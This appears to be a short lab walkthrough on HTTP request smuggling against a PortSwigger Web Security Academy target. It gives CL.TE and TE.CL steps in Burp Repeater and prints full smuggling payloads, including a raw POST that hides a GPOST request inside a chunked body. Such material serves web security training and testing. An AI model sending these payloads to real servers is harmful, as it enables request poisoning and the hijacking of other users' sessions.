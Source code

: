 ### CL.TE 
Copy 2 GET request. Change request method GET to POST in first request. Add following things in first request.
```txt
Content-Length: 15
Transfer-Encoding: chunked

0

HACKED
```
Now send both request one by one and see error message in second request's response. 
### TE.CL
Send a GET request in repeater and convert it to POST. Add Transfer-Encoding header and construct a GPOST payload. Count content length after GPOST to \r\n and add +1 with totall content length (In this case Content Length is 9d). Set Content-Length of POST request 2+2 = 4 (where c.l of 9d = 2). Uncheck Update c.l in burp repeater and send the request twice. Now, you can see "Unrecognized method GPOST" which means this target is vulnerable to smuggling.
```txt
POST / HTTP/1.1
Host: 0a5100c4035607e984f33b25009300f5.web-security-academy.net
Cookie: session=yErlfd1VMHYJ0vU897293SwfIhZulBhs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: 0a5100c4035607e984f33b25009300f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
